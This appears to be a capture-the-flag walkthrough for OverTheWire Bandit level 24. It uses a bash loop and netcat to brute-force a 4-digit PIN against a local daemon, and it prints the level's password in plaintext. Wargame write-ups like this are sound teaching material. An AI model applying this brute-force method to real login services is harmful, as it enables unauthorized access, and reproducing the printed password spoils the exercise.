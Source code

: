 # Bandit

## Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

<br/>
## Solution
We have to perform a bruteforce attach to get password for next Level.

<br/>
Lets connect using netcat and see what happens.

```shell
bandit24@bandit:~$ nc localhost 30002                                                                                                                                
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.               
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000                                                                                                                                
Wrong! Please enter the correct pincode. Try again.                                                                                                                  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111                                                                                                                                
Wrong! Please enter the correct pincode. Try again.                                                                                                                  
Timeout. Exiting. 
```

<br/>
We will generate a file containing password and all possible 4 digits numbers. This is done using below one liner.

```shell
bandit24@bandit:~$ for i in {1000..10000}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> /tmp/payload24 ; done
```

Now provide this file as input to netcat and this will reveal password for next Level.

<br/>
<u>Final Command:</u>
```shell
bandit24@bandit:~$ nc localhost 30002 < /tmp/payload24
```

<br/>
Solution Screenshot:

![Level 24 Image](./images/Level24.png)
![Level 24 Image](./images/Level24.1.png)


<br/>

[<< Back](https://grey-fish.github.io/Bandit/index.html)
